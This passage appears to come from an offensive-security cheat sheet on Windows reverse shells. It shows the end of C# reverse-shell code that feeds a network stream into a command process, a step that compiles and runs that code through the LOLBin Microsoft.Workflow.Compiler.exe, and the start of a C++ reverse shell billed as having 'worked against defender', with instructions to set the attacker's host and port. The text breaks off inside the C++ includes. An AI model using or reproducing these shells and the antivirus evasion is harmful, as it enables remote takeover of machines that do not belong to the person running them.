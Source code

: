 ```C#
							strInput.Append(rdr.ReadLine());
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
```
### Step #3: run the .NET compiler with the locations of both files
```shell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe Rev.xml Rev.Shell
```

---

## C++ reverse shell: worked against defender (31/7/2022)
### Step #1: make sure mingw-w64 is installed on your kali
```bash
apt-get install mingw-w64
```
### Step #2: create the `rev.cpp` file with the below contents. remember to edit the `lhost` and `lport`
```C++
//Author : Paranoid Ninja
//Email  : paranoidninja@protonmail.com
//Blog   : https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/

//Compile with g++/i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
//The effective size with statically compiled code should be around 13 Kb

#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#pragma comment(lib, "Ws2_32.lib")
#define DEFAULT_BUFLEN 1024


```